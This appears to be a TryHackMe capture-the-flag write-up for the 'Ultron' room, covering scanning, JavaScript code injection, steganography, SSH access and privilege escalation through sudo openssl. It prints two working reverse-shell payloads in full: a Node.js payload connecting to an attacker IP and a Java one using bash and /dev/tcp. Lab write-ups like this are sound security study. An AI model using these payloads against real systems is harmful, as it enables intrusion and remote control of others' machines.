 # ultron ctf -TryHackMe
## Author : RjRaju

### Ultron CTF room [line](https://tryhackme.com/room/ultr0nctf)

# Port Scan

* __First we need to scan the open ports, Let's use rustscan or nmap to scan the open ports.__


# Rustscan

![line](images/rustscan.png)

# Nmap Scan

![line](images/nmap.png)

# Open Ports

```
Open 10.10.98.46:7022
Open 10.10.98.46:7127
Open 10.10.98.46:8800
```

## **OpenSSH running on port 7022**

![line](images/port7022.png)

## **Nginx server running on port 8800**

![line](images/port8800.png)

## **Unknown login service running on port 7127**

![line](images/port7127.png)


* lets move on port **8800**

# web login

![line](images/login.png)

* Let's run Gobuster in order to find any directories on the service.

![line](images/gobuster.png)

* There is nothing intresting on the page, so let's register the account and login.

![line](images/dashboard.png)

* Let's see the request and responce on BurpSuit
* /source path there is a text box to enter the name, let's see the responce on Burpsuit

![line](images/source.png)

* send this request to repeater

![line](images/burp.png)

* There is Bug on /source?name=hacker field, lets create a payload on JavaScript.

![line](images/res1.png)

## JavaScript Payload

```js

var net = require("net"),sh = require("child_process").exec("/bin/sh");
var client = new net.Socket();
client.connect(1234, "10.6.49.123", function(){
    client.pipe(sh.stdin);
    sh.stdout.pipe(client);
    sh.stderr.pipe(client);
});

```

* Start Listening on port 1234 and encode the URL-Encode above payload, and send Request on BurpSuit.

![line](images/nc.png)

![line](images/urlencode.png)

* Now send the request and you will receive the reverse shell :).

![line](images/req2.1.png)

![line](images/revshellstable.png)

* Here is the source code of web page, in web page there is a /upload path to list the directory listing.


![line](images/data.png)

* Let's copy the ultron.jpg file to upload folder, so we can download that file on web page /upload path

![line](images/download.png)

* Download both files and the meta data.
* The nothing.txt file is useless and ultron.jpg hava some meta data.
* let's download the file and use steghide to extract the hidden data. 

![line](images/steg.png)

* Now we have the login cred's of port 7127 unknown service

![line](images/backdoor.png)

* Now we have code execution, use ssh keys to login as ssh service.
* SSH service is listening on port 7022 as nmap scan shown..

![line](images/ssh1.png)
![line](images/ssh2.png)

* Use the **id_rsa** key to login as wandamaximoff user.

![line](images/wandalogin.png)

* We can't upload linPEAS or other scripts to server, because some kind of firewall's blocking the connection, let's do manual priv..

![line](images/wandapriv.png)
 
* Let's create a JAVA payload to login as vision user.

```java
public class Shell {
    public static void main(String[] args) {
        Process p;
        try {
            p = Runtime.getRuntime().exec("bash -c $@|bash 0 echo bash -i >& /dev/tcp/127.0.0.1/2222 0>&1");
            p.waitFor();
            p.destroy();
        } catch (Exception e) {}
    }
}
```

* We can't get the reverse shell on attacket box so lets get rev shell on BOX.
* Use TMUX for multi-pane on BOX.

![line](images/visionshell.png)

* We got the revShell as vision user, let's stabilize the shell.

![line](images/stablize.png)

* submit the user flag.

![line](images/userflag.png)

* vision user can run openssl as root user with no password.

![line](images/vispriv.png)


* Gtfobins

![line](images/gtfobinfileread.png)


* root Flag

![line](images/rootFlag.png)

**Happy Hacking ! ..**
